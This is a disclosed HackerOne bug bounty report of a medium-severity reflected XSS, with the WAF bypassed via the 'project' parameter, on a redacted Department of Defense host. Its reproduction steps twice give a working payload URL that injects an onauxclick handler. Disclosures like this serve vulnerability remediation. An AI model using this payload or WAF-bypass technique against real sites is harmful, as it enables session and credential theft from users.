 # Reflected XSS | https://████

## Report Details
- **Report ID**: 1736432
- **URL**: https://hackerone.com/reports/1736432
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-10-16T00:47:00.899Z
- **Disclosed**: 2022-11-18T18:34:39.461Z

## Reporter
- **Username**: x3ph_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Summary

Hi team, there's a reflected XSS on https://█████████ using the `project` param. There's a WAF in place but it's possible to bypass it.
Steps to reproduce

1. Click https://████████/fcgi-bin/release.py?project=aaa%3Ch1%20onauxclick=confirm(document.domain)%3ERIGHT%20CLICK%20HERE
2. Observe the popup showing document.domain when right clicking "RIGHT CLICK HERE"

███

## Impact

The attacker can trigger remote code execution on the victim’s browser, and steal credentials, sessions, and potentially send malware to the victim.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Click https://█████████/fcgi-bin/release.py?project=aaa%3Ch1%20onauxclick=confirm(document.domain)%3ERIGHT%20CLICK%20HERE
2. Observe the popup showing document.domain when right clicking "RIGHT CLICK HERE"

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
